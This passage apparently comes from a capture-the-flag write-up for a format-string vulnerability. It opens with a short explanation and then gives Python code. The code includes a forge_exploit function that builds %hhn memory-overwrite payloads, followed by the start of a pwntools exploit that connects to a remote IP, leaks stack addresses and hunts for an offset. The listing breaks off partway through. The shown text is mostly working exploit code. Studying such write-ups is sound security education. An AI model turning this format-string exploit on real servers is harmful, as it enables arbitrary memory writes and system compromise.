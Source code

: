 ```python
        addr += 8
```

The `forge_exploit` function generates the final payload to be send to the server, replacing the value at the given address by the one we choose.

```python
def forge_exploit(addr, val):
    ret = ''
    curout = 4
    dist_to_addr = 12 + 8*20
    reader = (dist_to_addr / 8) + 7
    for i in range(8):
        diff = (val & 0xff) - curout
        curout = (val & 0xff)
        val /= 0x100
        if diff < 20:
            diff += 0x100
        ret += '%0' + str(diff) + 'u'
        ret += '%' + str(reader) + '$hhn'
        reader += 1
    ret += 'A'*(dist_to_addr - len(ret))
    for i in range(8):
        ret += p64(addr + i)
    return ret
```

Below is the full exploit code :

```python
#!/usr/bin/python

from pwn import *

conn = remote('47.75.182.113', 9999)
context.update(arch = 'amd64', os = 'linux')

DEPTH = 100

def exec_payload(payload):
    if '\n' in payload:
        return ""
    conn.sendline("_EOF" + payload)
    conn.recvuntil("_EOF")
    data = conn.recv()
    return data


def find_elf(depth):
    log.info('Finding ELF. This might take a few seconds...')
    for i in xrange(1, depth + 1):
        data = exec_payload('%' + str(i) + '$p')
        if (len(data) == 8 and data[0:5] == '0x400'):
			log.success('FOUND ELF !')
			return int(data, 16)

start_address_elf = find_elf(DEPTH)
log.info('Using address %s' % hex(start_address_elf))


def find_leak_point():
    log.info('Finding leak point')
    for i in xrange(1, 200):
        r = exec_payload('%' + str(i) + '$p' + 'AAAAAAAA' + 'BBBBBBBB')
        if '0x4242424242424242' in r: # chr(0x42) = 'B'
```